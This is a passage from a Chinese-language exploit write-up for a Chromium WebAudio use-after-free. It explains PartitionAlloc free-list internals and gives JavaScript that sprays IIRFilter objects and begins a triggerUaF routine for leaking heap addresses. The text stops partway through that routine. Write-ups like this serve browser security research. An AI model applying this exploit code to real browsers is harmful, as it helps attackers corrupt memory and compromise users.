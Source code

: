 - 每个 Partition 都有一组桶，每个桶都对应一个特定的大小，桶内存储一个 PartitionPage 元数据的地址，此页面的内存块大小和桶的大小匹配。这样在申请内存时，可以根据目的大小快速找到对应的桶，从桶指向的页面的空闲列表中分配一个满足条件的内存块。
- 内存块释放时，PartitionAlloc 用内存块地址计算出其所在页面的元数据的地址，将其插入空闲链表中。计算方法：通过与位运算算出 SuperPage 的地址，位运算算出内存块所在 PartitionPage 相对 SuperPage 的索引 i，最后通过 SuperPage + 4 KiB + i * sizeof(PartitionPage) 计算出元数据的地址。

更多内容参考：
- [官方文档](https://chromium.googlesource.com/chromium/src/+/master/base/allocator/partition_allocator/PartitionAlloc.md)
- [代码注释](https://source.chromium.org/chromium/chromium/src/+/main:base/allocator/partition_allocator/partition_alloc_constants.h)

#### 创建 IIRFilters

申请一组 `IIRFilter` 供后续利用使用，其他信息后面用到时再说明。

```JavaScript
function initialSetup() {
	let audioCtx = new OfflineAudioContext(1, 20, 3000);

	let feedForward = new Float64Array(2);
	let feedback = new Float64Array(1);

	feedback[0] = 1;
	feedForward[0] = 0;
	feedForward[1] = -1;

	for (let i = 0; i < 512; i++)
		iirFilters.push(audioCtx.createIIRFilter(feedForward, feedback));
}
```

#### 泄露地址

`accumulation_buffer_` 和 `input_buffer_` 内部都有一个名为 `buffer_` 的 [`AudioArray`](https://source.chromium.org/chromium/chromium/src/+/main:third_party/blink/renderer/platform/audio/audio_array.h) 成员变量，负责管理内部缓冲区。`AudioArray` 直接从 PartitionAlloc 申请所需的内存。

`AudioArray` 的析构函数会释放之前申请的内存块，由 PartitionAlloc 把它插入所属页面的空闲链表，把下一个空闲块指针写入内存块开头的 8 字节。因此，在 `ArrayBuffer` 把缓冲区释放后再读取其内容，就可以读到后继空闲块的地址。漏洞利用的第一部分就是利用 accumulation_buffer_ 读取到这个地址。

---

**ℹ️NOTE**: 从 ParitionAlloc 申请的内存地址，存放在 `AudioArray::allocation_`

---

代码：

```JavaScript
async function triggerUaF(doneCb) {
	let audioCtx = new OfflineAudioContext(2, 0x400000, 48000);
	let bufferSource = audioCtx.createBufferSource();
	let convolver = audioCtx.createConvolver();
	let scriptNode = audioCtx.createScriptProcessor(0x4000, 1, 1);
	let channelBuffer = audioCtx.createBuffer(1, 1, 48000);

	convolver.buffer = channelBuffer;
	bufferSource.buffer = channelBuffer;

	bufferSource.loop = true;
	bufferSource.loopStart = 0;
	bufferSource.loopEnd = 1;

	channelBuffer.getChannelData(0).fill(0);

	bufferSource.connect(convolver);
	convolver.connect(scriptNode);
	scriptNode.connect(audioCtx.destination);
```